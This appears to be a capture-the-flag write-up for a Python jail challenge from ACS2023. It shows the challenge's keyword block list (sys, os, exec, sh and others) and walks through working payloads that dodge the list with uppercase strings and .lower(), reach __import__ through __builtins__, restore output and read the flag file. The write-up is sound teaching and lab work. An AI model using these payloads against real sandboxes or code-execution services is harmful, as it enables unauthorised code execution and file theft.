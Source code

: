 ```yaml
---
title: "escape room [code-audit]"
categories: Acs2023
permalink: /ctfs/acs2023/escaperoom
---
```

Python Jail challenge for bypassing condition checks and performing code execution.

## Challenge Description

> Can you escape?
>
> Connect to instance: `nc 192.168.0.45 50137`

```python
import os, sys

def main():
  filter_list = ['sys','import','flag','open','/',"sh","bin",'eval','exec','os','read','system']

  print("Please Input your Source code > ")
  user_data = ''
  while True:
    temp = input()
    if(temp == 'EOF'):
      break

    user_data += temp + '\n'

  print(user_data)
  for filter_str in filter_list:
    if filter_str in user_data:
      print("No hack plz!")
      exit(0)

  binary = compile(user_data, '<string>', 'exec')
  
  os.close(0)
  os.close(1)
  exec(binary)

if __name__ == '__main__':
  
  main()
```

## Solution

The program accepts multi-line inputs until it detects the word `'EOF'` at the end of the input. The flag is placed somewhere in the instance. So, we need to figure out how to bypass the condition checks and successfully execute our commands.

Looking through the code, the program seems like filtered out some significant words including `sys`, `import`, `flag`, `open`, `eval`, `exec`, `os`, `read`, `system`, `bin`, `sh`, even the word `flag` and `/`.

We know we need to use these words to help us retrieve the flag. 

During the competition, I found an amazing [write-up](https://anee.me/escaping-python-jails-849c65cf306e) that is very similar to this challenge. Python has a `__builtins__` module that can directly access the pre-defined functions using `__dict__` representation.

Example:

```python
>>> import os.system
>>> __builtins__.__dict__['__import__']('os').__dict__['system']('')
```

These two lines have the same meaning. Of course, we are not going to directly insert the filtered words as they get rejected based on the list.

Luckily, there is a flaw in the `filter_list` where it only checks for the lowercase of the words. Therefore, we can capitalize all the words and add `.lower()` to bypass the check.

```python
>>> __builtins__.dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('')
```

Ok, now here is a problem. The program has another line that prevents returning any outputs to the user. Here is the line,

```python
os.close(0)
os.close(1)
exec(binary)
```

The `os.close()` accepts **File Descriptors** as a parameter. By default, file descriptor `0` refers to standard input, `1` refers to standard output, and `2` refers to standard error. By knowing this, we know that the program is currently using the standard output as it is trying to close this file descriptor before the commands are executed. So, when we attempt to print any output, it will return

```
$ nc 192.168.0.45 50137
Please Input your Source code > 
print('anything')
EOF

Exception ignored in: <_io.TextIOWrapper name='<stdout>' mode='w' encoding='utf-8'>
OSError: [Errno 9] Bad file descriptor
```

What should we do next? The program does close the standard output but it returns an error. Remember that `2` is the file descriptor for standard error which the program does not include it. Hence, I ended up with a crazy move that I can redirect my standard error to standard output.

```python
>>> __builtins__.__dict__['__IMPORT__'.lower()]('SYS'.lower()).__dict__['stdout'] = __builtins__.__dict__['__IMPORT__'.lower()]('SYS'.lower()).__dict__['stderr']
```

Now, the standard error is my standard output, which means any output I want to print should replace the error field. By defining this line, the `print()` function will work successfully.

```
$ nc 192.168.0.45 50137
Please Input your Source code >
__builtins__.__dict__['__IMPORT__'.lower()]('SYS'.lower()).__dict__['stdout'] = __builtins__.__dict__['__IMPORT__'.lower()]('SYS'.lower()).__dict__['stderr']
print('anything')
EOF

anything
```

Combine what we have now and we can make our payload.

```
__builtins__.__dict__['__IMPORT__'.lower()]('SYS'.lower()).__dict__['stdout'] = __builtins__.__dict__['__IMPORT__'.lower()]('SYS'.lower()).__dict__['stderr']
__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower())
print(__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['listdir'](chr(47)+'home'+chr(47))
print(__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['listdir'](chr(47)+'home'+chr(47)+'ctf_user'+chr(47)))

['ctf_user']
['.bashrc', '.bash_logout', '.profile', 'flag', 'main.py']
```

As the program checks `/`, we replace it with `chr(47)` which gives the same meaning. The `os.listdir()` is also used to list the current directory by providing an absolute path and we found a `ctf_user` directory.

Getting deeper, we found the `flag` file. We used the same `.lower()` method to bypass that. However, the program filters the word `read` where `__builtins__` does not include it. Hence, we use a `for` loop to print every character out without abusing the condition checks. From here, we got the flag.

Final payload:

```
$ nc 192.168.0.45 50137
Please Input your Source code >
__builtins__.__dict__['__IMPORT__'.lower()]('SYS'.lower()).__dict__['stdout'] = __builtins__.__dict__['__IMPORT__'.lower()]('SYS'.lower()).__dict__['stderr']
__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower())
print(__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['listdir'](chr(47)+'home'+chr(47))
print(__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['listdir'](chr(47)+'home'+chr(47)+'ctf_user'+chr(47)))
f = __builtins__.__dict__['OPEN'.lower()](chr(47)+'home'+chr(47)+'ctf_user'+chr(47)+'FLAG'.lower(), 'r')
for i in f:
        print(i)
EOF

['ctf_user']
['.bashrc', '.bash_logout', '.profile', 'flag', 'main.py']
ACS{r00m_nam3_i4_sandbox__and__y0u_escap3_r00m_successfully!!!}
```

Hope you enjoyed it!
